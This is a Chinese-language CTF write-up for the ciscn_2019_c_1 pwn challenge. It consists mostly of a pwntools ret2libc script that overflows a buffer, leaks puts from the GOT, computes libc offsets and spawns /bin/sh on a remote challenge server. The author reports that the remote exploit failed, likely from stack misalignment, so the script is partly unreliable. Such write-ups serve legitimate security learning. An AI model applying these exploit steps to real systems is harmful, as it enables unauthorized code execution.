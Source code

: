 **exp**

偏移=rsp+0x50=0x58

```python
from pwn import *
p = remote('node3.buuoj.cn','25483')
#p = process('/root/ciscn_2019_c_1')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') #/root/libc.so.6
elf = ELF('/root/ciscn_2019_c_1')

plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
main = elf.symbols['main']
pop_rid = 0x400c83

payload = "A" * 0x58 
payload += p64(pop_rid) 
payload += p64(got_puts) 
payload += p64(plt_puts) 
payload += p64(main)
p.recvuntil('Input your choice!\n')
p.sendline('1')
p.recvuntil('Input your Plaintext to be encrypted\n')
p.sendline(payload)

p.recvuntil('@\n')
gets_addr = u64(p.recv(6).ljust(8,'\0'))
libcbase = gets_addr - libc.symbols['puts']#拿到libc基地址

system_in_libc = libc.symbols['system']#system在libc文件里的偏移地址
bin_sh_in_libc = next(libc.search('/bin/sh'))#/'bin/sh'字符串在libc里的偏移地址

system_addr = libcbase + system_in_libc#system在程序里的地址
bin_sh_addr = libcbase + bin_sh_in_libc#/bin/sh在程序里的地址

payload2 = "A" * 0x58
payload2 += p64(pop_rid)
payload2 += p64(bin_sh_addr)
payload2 += p64(system_addr)

p.recvuntil('Input your choice!\n')
p.sendline('1')
p.recvuntil('Input your Plaintext to be encrypted\n')
p.sendline(payload2)
p.interactive()
```

远程连接不上，看大佬exp说是调用栈要对齐，最后payload要加一个ret保证栈堆平衡，但尝试无果，用了好多大佬的exp也没搞到flag

学到操作

```python
p.recvuntil('@\n')
gets_addr = u64(p.recv(6).ljust(8,'\0'))
libcbase = gets_addr - libc.symbols['puts']#拿到libc基地址
```

